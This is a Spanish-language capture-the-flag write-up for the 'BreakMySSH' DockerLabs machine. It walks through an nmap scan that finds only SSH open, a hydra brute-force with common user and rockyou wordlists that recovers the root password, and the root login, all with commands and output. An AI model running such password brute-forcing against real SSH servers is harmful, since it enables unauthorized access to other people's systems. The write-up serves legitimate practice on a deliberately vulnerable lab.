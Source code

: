 # Máquina BreakMySSH

Dificultad -> Muy fácil

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
```

***

## Explotación

Solo vemos el puerto **ssh** por lo que aplicamos fuerza bruta con usuarios y contraseñas comunes y la herramienta **hydra**: Para los usuarios he escogido un diccionario de metasploit -> /usr/share/metasploit-framework/data/wordlists/unix\_users.txt Y para las contraseñas el **rockyou** -> /usr/share/wordlists/rockyou.txt

```shell
hydra -L /usr/share/metasploit-framework/data/wordlists/unix_users.txt -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10 -I
-------------------------------------------------------------------
[22][ssh] host: 172.17.0.2   password: estrella
```

Encontramos una contraseña -> **estrella**

Resultan ser las credenciales del usuario **root**. Podemos acceder mediante:

```shell
ssh root@172.17.0.2
-> root@172.17.0.2's password: estrella
```

Estamos dentro, y como hemos entrado con **root** tenemos el nivel de privilegios máximos en el sistema !
